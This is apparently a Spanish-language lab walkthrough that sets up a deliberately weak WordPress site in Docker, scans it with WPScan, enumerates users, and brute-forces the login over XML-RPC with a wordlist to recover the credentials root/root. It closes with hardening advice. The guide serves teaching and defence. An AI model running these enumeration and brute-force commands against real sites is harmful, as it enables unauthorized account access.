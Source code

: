 = Pereza
:author: Manuel L. Quero
:toc: left
:doctype: book

== Despliegue de la máquina

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, pereza.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh pereza.tar
----

== WordPress y sus vulnerabilidades

WordPress es un sistema de gestión de contenidos (CMS) gratuito y de código abierto que permite a cualquier persona crear y administrar sitios web con facilidad. Originalmente concebido como una plataforma de blogs en 2003, ha evolucionado hasta convertirse en una de las herramientas más versátiles para desarrollar desde simples sitios personales hasta complejas tiendas de comercio electrónico.

Sin embargo, su enorme popularidad (más del 40% de los sitios web del mundo utilizan WordPress) lo convierte en un blanco constante para ciberdelincuentes. Esta popularidad, sumada a una comunidad diversa de desarrolladores de plugins y temas, ha generado un entorno en el que las configuraciones por defecto, credenciales débiles, plugins vulnerables o versiones sin actualizar pueden dejar expuesto un sitio web con facilidad.

=== Vulnerabilidades comunes en WordPress

* *Uso de credenciales por defecto o débiles* -> Muchos administradores dejan el nombre de usuario “admin” y contraseñas como “admin123” o “password”, facilitando ataques de fuerza bruta.

* *Plugins y temas vulnerables* -> WordPress permite ampliar su funcionalidad con plugins, muchos de los cuales son desarrollados por terceros. Cuando no se actualizan con frecuencia o tienen malas prácticas de seguridad, pueden introducir fallos críticos.

* *Versiones desactualizadas del núcleo de WordPress* -> Al no aplicar parches de seguridad, se dejan abiertas puertas ya conocidas y documentadas.

* *Configuraciones por defecto* -> Instalaciones que dejan habilitado el acceso público a /wp-admin o la API REST sin restricciones pueden ser explotadas para enumerar usuarios o realizar ataques automatizados.

=== Ataques frecuentes

Entre los ataques más comunes se encuentran:

* Fuerza bruta contra el panel de login

* Cross-Site Scripting (XSS)

* Inyecciones SQL (especialmente en plugins mal desarrollados)

* Carga de archivos maliciosos

* Escalada de privilegios a través de bugs en extensiones

== Solucionar la máquina

En esta guía aprenderemos cómo analizar un sitio web desarrollado con WordPress para identificar posibles vulnerabilidades. Utilizaremos herramientas como WPScan para detectar configuraciones inseguras, plugins o temas desactualizados y otros puntos débiles comunes. Después se realizará un ataque de fuerza bruta como parte del reconocimiento activo, pero su explicación detallada se abordará en la sección correspondiente al círculo de la ira.

=== Crear nuestro Wordpress

En esta máquina aprenderemos a crear un entorno vulnerable de Wordpress, no nos llevará mucho tiempo, ya que las configuraciones las dejaremos por defecto.

Empezamos eligiendo el idioma:

image::assets/idioma.png[Elegir idioma,align=center]

Después configuramos las credenciales, en este caso al ser un administrador perezoso, pongo unas credenciales sencillas porque ya las cambiaré.

image::assets/credenciales.png[Configurar credenciales,align=center]

<<<

Por lo que instalamos wordpress y accedemos con nuestras credenciales.

image::assets/accesoUno.png[Acceder por primera vez,width=440,align=center]

De esta forma ya estaría listo nuestro entorno, en caso opcional, podemos darle un estilo a nuestra página o probar a instalar plugins con vulnerabilidades o incluso securizarlo, las posibilidades son infinitas.

==== Usar entorno Acedia

También podeis usar el entorno que he creado importando el .xml dentro de vuestro wordpress:

image::assets/importar1.png[Página de importar,width=540,align=center]

<<<

Le damos a instalar y después ejecutamos el importador. En este seleccionamos el archivo acediastore.xml que se encuentra en wp-import.

image::assets/importar2.png[Importador,width=540,align=center]

image::assets/importar3.png[Importar xml,width=560,align=center]

Una vez hecho esto, le damos a enviar.

image::assets/importar4.png[Enviar,width=560,align=center]

Ya tendríamos el entorno, pero faltan las imágenes.

image::assets/importar5.png[Importación concluida,width=500,align=center]

Para importar las imágenes, tenemos que ir a medios y volcar la carpeta acedia-imágenes que se encuentra en wp-import dentro del espacio vacío.

image::assets/imagenes1.png[Importar imágenes,align=center]

Pero pasarlo no es suficiente, ya que la ruta de estas imágenes es la del mes actual, y la importación se hizo en abril por lo que tenemos que meternos dentro de la máquina modificar la carpeta /wp-content/uploads/2025/(mes actual) a 04/, como se muestra a continuación:

image::assets/imagenes2.png[Cambiar ruta,align=center]

Y ya tendríamos la página sobre la que se basa esta guía.

=== WPscan

WPscan es una herramienta de escaneo de seguridad específica para sitios web construidos con WordPress. 

==== Descargar

Para descargar esta herramienta viene explicado en su https://github.com/wpscanteam/wpscan[github].

* *Gem* -> Esta es la opción más recomendada en caso de usar Kali Linux.

[source,bash]
----
$ sudo apt install ruby
$ sudo apt install build-essential libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev  libgmp-dev zlib1g-dev
$ gem install wpscan
$ gem update wpscan
----

* *Docker* -> En caso de usar otra distribución podemos descargarla por docker.

[source,bash]
----
$ docker pull wpscanteam/wpscan
$ docker run -it --rm wpscanteam/wpscan --url https://target.tld/ --enumerate (...)
----

En caso de usar distribuciones más extrañas puedes https://www.linuxbabe.com/security/install-wpscan-wp-vulnerability-scanner[ver esto].

WPscan es gratis, pero mejora con la API, en caso que queramos hacer escaneos más exhaustivos -> https://wpscan.com/pricing/[ver aquí].

==== Reconocimiento

Una vez instalada nuestra herramienta, vamos a proceder a analizar la página.

image::assets/Pagina.png[Página web,align=center]

Es importante saber que el login de WordPress está en /wp-admin. También esta /robots.txt que nos puede proporcionar información adicional.

===== 1. Reconocimiento general

Comenzamos realizando un escaneo general, principalmente para comprender cómo es la estructura, ver las cabeceras, ver si tiene XML-RPC, ver la versión de WordPress, y entre otras cosas que vamos a ver a continuación.

[source,bash]
----
$ wpscan --url http://localhost:8080
----

.WPscan General
[%collapsible]
====
[source,text]
----
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://localhost:8080/ [::1]
[+] Started: Sat Apr 12 19:05:48 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.62 (Debian)
 |  - X-Powered-By: PHP/8.2.28
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://localhost:8080/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://localhost:8080/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://localhost:8080/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.7.2 identified (Latest, released on 2025-02-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://localhost:8080/?feed=rss2, <generator>https://wordpress.org/?v=6.7.2</generator>
 |  - http://localhost:8080/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.7.2</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://localhost:8080/wp-content/themes/twentytwentyfive/
 | Last Updated: 2025-02-11T00:00:00.000Z
 | Readme: http://localhost:8080/wp-content/themes/twentytwentyfive/readme.txt
 | [!] The version is out of date, the latest version is 1.1
 | Style URL: http://localhost:8080/wp-content/themes/twentytwentyfive/style.css?ver=1.0
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://localhost:8080/wp-content/themes/twentytwentyfive/style.css?ver=1.0, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Apr 12 19:05:52 2025
[+] Requests Done: 170
[+] Cached Requests: 5
[+] Data Sent: 44.104 KB
[+] Data Received: 253.503 KB
[+] Memory used: 269.578 MB
[+] Elapsed time: 00:00:03
----
====

* *[+] Headers*

Podemos ver cómo se están exponiendo cabeceras del servidor y del lenguaje utilizado. Gracias a esto podemos buscar CVEs para las versiones de estos servicios y explotarlos

----
Server: Apache/2.4.62 (Debian)
X-Powered-By: PHP/8.2.28
----

* *[+] XML-RPC Enabled*

XML-RPC es un protocolo que permite a aplicaciones externas interactuar con WordPress (ej: publicación remota). Tener está habilitado es altamente peligroso y explotable. 
Puede usarse para: ataques de fuerza bruta por amplificación, pingback DDoS o escaneo de usuarios.

----
http://localhost:8080/xmlrpc.php
----

* *[+] WordPress readme found*

Este archivo contiene la versión exacta de WordPress, lo que facilita identificar vulnerabilidades específicas de esa versión.

----
http://localhost:8080/readme.html
----

* *[+] External WP-Cron Enabled*

Permite ejecutar tareas programadas como publicar entradas, comprobar actualizaciones, etc. Si se abusa, puede ser usado para sobrecargar el servidor con peticiones constantes (DDoS).

----
http://localhost:8080/wp-cron.php
----

* *[+] WordPress version identified: 6.7.2*

La versión del CMS puede extraerse fácilmente de los feeds RSS. Conocer la versión nos facilita ataques específicos.

* *[+] WordPress Theme: twentytwentyfive*

La version está desactualizada: 1.0 (última: 1.1). Esto es inseguro ya que las versiones desactualizadas de temas pueden contener vulnerabilidades.

* *[i] No Plugins Encontrados*

En este caso no hay plugins con vulnerabilidades.

* *[+] Enumeración de Config Backups*

No se encontraron backups públicos.

===== 2. Reconocimiento de usuarios

En este escaneo, esperamos conseguir los usuarios que tienen acceso a wp-admin

[source,bash]
----
$ wpscan --url http://localhost:8080 --enumerate u
----

.WPscan Usuarios
[%collapsible]
====
[source,text]
----
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] root
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] accidia
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
----
====

He cogido directamente la parte de los usuarios, ya que vuelve hacer un escaner general, y eso ya ha sido explicado anteriormente.

Como podemos observar hemos obtenido dos usuarios que son *root* y *accidia*, gracias a esto podemos realizar ataques de fuerza bruta.

* *Enumeración pasiva (RSS Generator)* -> Al acceder al feed RSS (/?feed=rss2), WordPress expone automáticamente metadatos que incluyen el autor de las entradas. Por eso WPScan identificó al usuario root sin necesidad de interactuar directamente con la web.

* *Enumeración agresiva (Author Pattern)* -> WPScan hace peticiones a URLs como /author=1, /author=2, etc., y observa los redireccionamientos y títulos de las páginas para deducir el nombre de usuario. Así encontró accidia.

===== 3. Otros tipos de escaneos

Cómo ya hemos visto, wpscan es una herramienta muy poderosa contra páginas de WordPress, por eso voy a mostrar otros tipos de enumeración que nos pueden servir para obtener más información:

* *Escanear y enumerar plugins y temas*

[source,bash]
----
$ wpscan --url https://example.com --enumerate ap,at
----

ap -> all plugins.

at -> all templates.

* *Enumerar todas las vulnerabilidades*

[source,bash]
----
$ wpscan --url https://example.com --enumerate vp,vt,tt
----

vp -> vulnerable plugins.

vt -> vulnerable themes.

tt -> vulnerable timthumbs.

Una vez identificamos versiones vulnerables de plugins, temas u otros componentes, tenemos varias formas de continuar el ataque o la investigación:

* *Buscar vulnerabilidades manualmente*

Copiamos la versión del plugin/tema vulnerable y la buscamos en un navegador con términos como:

----
(plugin-name) (version) exploit o (plugin-name) CVE.
----

Es común encontrar repositorios en GitHub, foros o blogs donde se comparten proof of concept (PoC) o incluso exploits funcionales.

* *Usar bases de datos de exploits públicos*

https://www.exploit-db.com[Exploit-DB]: Es una base de datos de vulnerabilidades conocida que incluye descripciones técnicas, PoCs y a veces exploits completos. Buscar por nombre de plugin, tema o CVE detectado.

* *Usar SearchSploit (offline)*

https://www.exploit-db.com/searchsploit[SearchSploit] es una herramienta incluida en Kali Linux que permite buscar localmente en la base de datos de Exploit-DB:

[source,bash]
----
$ searchsploit nombre_del_plugin_o_vulnerabilidad
----

También permite mostrar o copiar el exploit directamente:

[source,bash]
----
$ searchsploit -m exploit/path
----

==== Ataque

Una vez obtenidos los usuarios, vamos a realizar un ataque de fuerza bruta con wpscan. Pero antes tenemos que saber que es un ataque de fuerza bruta.

Un ataque de fuerza bruta es un tipo de ataque que utiliza pruebas y errores para descifrar contraseñas, credenciales de inicio de sesión y claves de cifrado. Es una táctica simple pero confiable para obtener acceso no autorizado a cuentas individuales y sistemas y redes de organizaciones.

Estos ataques requieren mucho tiempo, especialmente cuando se utilizan contraseñas largas o complejas. Además, este proceso puede consumir grandes cantidades de recursos del sistema (como la CPU y la memoria), lo que hace que el ataque sea lento y costoso en términos de rendimiento. Además, son más fáciles de detectar ya que generan grandes cantidades de tráfico de red o múltiples intentos de inicio de sesión fallidos.

Existen varios tipos, pero nosotros vamos a usar el ataque por diccionario, en este el atacante selecciona un objetivo y luego prueba las posibles contraseñas contra el nombre de usuario de esa persona.

<<<

Kali Linux viene con varios diccionarios preinstalados en la ruta /usr/share/wordlists, que forman parte de sus herramientas, podemos verlo más en detalle en el siguiente enlace https://www.kali.org/tools/wordlists/[Wordlists]. Recomiendo primeramente probar diccionarios pequeños, sobre todo si encontramos indicios de credenciales por defecto, ya que tardará menos que si utilizamos diccionarios más grandes como https://github.com/intelligencegroup-io/RockYou2024[rockyou 2024] con 9,948,575,739 contraseñas.

[source,bash]
----
$ wpscan --url https://localhost:8080 -U root -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt
----

.WPscan Password
[%collapsible]
====
[source,text]
----
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - root / root                                                                                                                                                                     
Trying root / roost Time: 00:03:02 <=================================================                                                                > (38665 / 86268) 44.81%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: root, Password: root
----
====

Como podemos ver que el ataque lo realiza sobre Xmlrpc y que ha encontrado la contraseña root, por lo que probamos a ponerla:

image::assets/root.png[Metemos Credenciales,width=460,align=center]

image::assets/acceso.png[Acceso a WordPress,width=460,align=center]

Y como podemos ver, estamos dentro.

== ¿Cómo prevenir?

=== WordPress

WordPress al ser muy amplio, tiene muchas formas de mitigarlo, por lo que vamos a ver las más esenciales.

==== 1. Mantener WordPress, plugins y temas actualizados

WordPress es un software que se mantiene y actualiza con regularidad. Por defecto, WordPress instala automáticamente actualizaciones menores. Pero las versiones principales, debe iniciarse manualmente la actualización.

WordPress también incluye miles de plugins y temas que puedes instalar en tu sitio web. El mantenimiento de estos plugins y temas corre a cargo de desarrolladores externos, que también lanzan actualizaciones con regularidad.

==== 2. Utilizar contraseñas fuertes y únicas

Como ya hemos visto los intentos de pirateo de WordPress más comunes utilizan contraseñas robadas. Sin embargo, se puede dificultar utilizando contraseñas más seguras y únicas para el sitio web. Y no solo en WordPress sino en FTP, bases de datos, correos electrónicos asociados, etc. También se puede usar 2FA y gestores de contraseñas como Keepass.

==== 3. Limitar los intentos de inicio de sesión

Se puede restringir la cantidad de intentos fallidos de acceso para prevenir ataques de fuerza bruta. Plugins como https://wordpress.org/plugins/limit-login-attempts-reloaded/[Limit Login Attempts Reloaded] pueden ser muy útiles para esta tarea.

==== 4. Desactivar XML-RPC si no es necesario

XML-RPC es una API del núcleo de WordPress que ayuda a conectar tu sitio WordPress con aplicaciones web y móviles. Está activada / activa por defecto desde WordPress 3.5. Si esta API no se utiliza es muy recomendable desactivarlo. Existen varias formas, pero modificando el .htaccess es la más recomendable al no usar tantos recursos. Deberemos encontrar el archivo .htaccess y poner el siguiente código:

[source,text]
----
# Block WordPress xmlrpc.php requests
<Files xmlrpc.php>
order deny,allow
 deny from all
allow from 123.123.123.123
</Files>
----

Otra forma es usando el plugin  https://wordpress.org/plugins/disable-xml-rpc-api/[Disable XML-RPC-API].

==== 5. Instalar un firewall de aplicaciones web (WAF)

Cómo ya hemos visto en otras ocasiones un WAF es muy útil, pero no debemos confiar toda la seguridad a este, ya que existen formas de baipasearlo.

==== 6. Realizar copias de seguridad periódicas

Otra de las cosas que hemos visto durante el escaneo es la falta de backups, por lo que es recomendable realizar periódicamente estas copias de seguridad, ya que en caso de ransomware puede no afectarnos tanto, aunque depende de la metodología que se siga. Hay plugins como UpdraftPlus o BlogVault y almacenan las copias en ubicaciones externas como Dropbox o Amazon S3.

==== 7. Cambiar el prefijo de la base de datos

Modificar el prefijo por defecto (wp_) de las tablas de la base de datos dificulta los ataques automatizados que buscan estructuras estándar.

==== 8. Desactivar la edición de archivos desde el panel de administración

Esto previene que usuarios con acceso al panel modifiquen archivos críticos directamente desde el navegador.

==== 9. Proteger el archivo .htaccess y otros archivos sensibles

Es necesario restringir el acceso a archivos como .htaccess, wp-config.php y readme.html para evitar que se exponga información sensible.

==== 10. Utilizar un proveedor de alojamiento seguro

Existen servicios de hosting que ofrezcan medidas de seguridad robustas, como escaneos automáticos de malware, certificados SSL y soporte para actualizaciones automáticas.

En caso de querer saber más sobre cómo volver más seguro entornos de WordPress vease -> https://www.wpbeginner.com/es/wordpress-security/[Securizar WordPress].

----
"Si tu empresa gasta más en café que en seguridad TI, serás hackeado. Es más, merecerás ser hackeado."

— Eric S. Raymond
----